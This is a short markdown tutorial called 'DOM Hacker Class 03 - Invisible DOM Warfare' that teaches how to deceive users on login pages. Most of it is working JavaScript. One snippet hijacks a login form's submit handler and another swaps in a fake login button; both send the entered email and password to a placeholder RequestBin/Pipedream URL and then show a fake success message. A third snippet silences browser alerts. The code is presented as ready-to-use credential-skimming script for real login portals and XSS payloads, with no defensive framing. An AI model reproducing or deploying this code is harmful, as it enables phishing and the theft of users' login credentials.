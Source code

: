 ## Real-World Use Case
Used in:

* Malicious JavaScript in login portals
* XSS payloads to intercept user logins

```js

---

## 📘 DOM Hacker Class 03 - Invisible DOM Warfare

```md
# DOM Hacker Class 03 - Invisible DOM Warfare

## 🎯 Goal
Deceive users by replacing, disabling, or overriding real page elements.

---

## 🧱 Disable Real Form
```js
document.getElementById("loginForm").onsubmit = function(event) {
  event.preventDefault();

  let email = document.getElementById("email").value;
  let pass = document.getElementById("password").value;

  fetch("https://YOUR-REQUESTBIN.x.pipedream.net?email=" + email + "&pass=" + pass);

  document.getElementById("status").textContent = "✅ Login Successful. Redirecting...";

  setTimeout(function() {
    window.location.href = "https://real-site.com";
  }, 2000);
};
```

## Replace the real button with fake one
```js
let realBtn = document.getElementById("loginBtn");
realBtn.style.display = "none";

let fakeBtn = document.createElement("button");
fakeBtn.textContent = "Login";
fakeBtn.style.background = "green";
fakeBtn.onclick = function() {
  let email = document.getElementById("email").value;
  let pass = document.getElementById("password").value;

  fetch("https://YOUR-REQUESTBIN.x.pipedream.net?e=" + email + "&p=" + pass);
  document.getElementById("status").textContent = "✅ Login Successful";
};
realBtn.parentNode.appendChild(fakeBtn);
```
## DIsable alerts
```js
window.alert = function(msg) {
  console.log("Blocked alert:", msg);
};
```

